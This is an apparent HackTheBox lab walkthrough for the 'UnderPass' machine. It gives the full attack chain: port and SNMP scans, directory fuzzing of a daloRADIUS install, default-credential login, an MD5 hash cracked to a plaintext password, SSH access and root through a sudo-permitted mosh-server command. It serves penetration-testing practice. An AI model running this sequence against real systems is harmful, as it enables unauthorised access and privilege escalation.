

# UnderPass HTB Walkthrough

---

## Enumeration

```bash
nmap -p- -Pn 10.129.231.213 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.213 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.213 -v --script vuln -oN nmap_vuln.txt
```


---

## Web Enumeration

On **port 80**, we found a web server running.


Directory fuzzing and subdomain enumeration didn’t reveal much, so I decided to check for **UDP ports**.

```bash
nmap -sU -T5 10.129.231.213
```


We see that **SNMP (port 161)** is open.

---

## SNMP Enumeration

```bash
nmap -sU -T5 -sC -sV -p161 10.129.231.213
```


Then ran:

```bash
snmpbulkwalk -c public -v2c 10.129.231.213
```

We got an email of a user and discovered that this is a **Daloradius** server.


---

## Web Exploitation

Visited the `/daloradius` endpoint — got **403 Forbidden**, so fuzzed it further.

```bash
ffuf -u http://10.129.231.213/daloradius/FUZZ -w /usr/share/wordlists/dirb/big.txt -s -recursion
```




Found `/app/users` endpoint showing a **login form**.


Also discovered `/app/operators`, so we tried default credentials.


Login was successful.


Found user **svcMosh** listed with an MD5 password hash.


---

## Cracking Credentials

Used **John the Ripper** to crack the hash and got:

```
svcMosh : underwaterfriends
```


---

## SSH Access

Logged in as **svcMosh**:

```bash
ssh svcMosh@10.129.231.213
```


User flag located in the initial directory.

---

## Privilege Escalation

Running `sudo -l` revealed we can execute `mosh-server` as sudo.


After some research, found this payload:

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```


Successfully gained root access.

Root flag located at `/root/root.txt`.

---
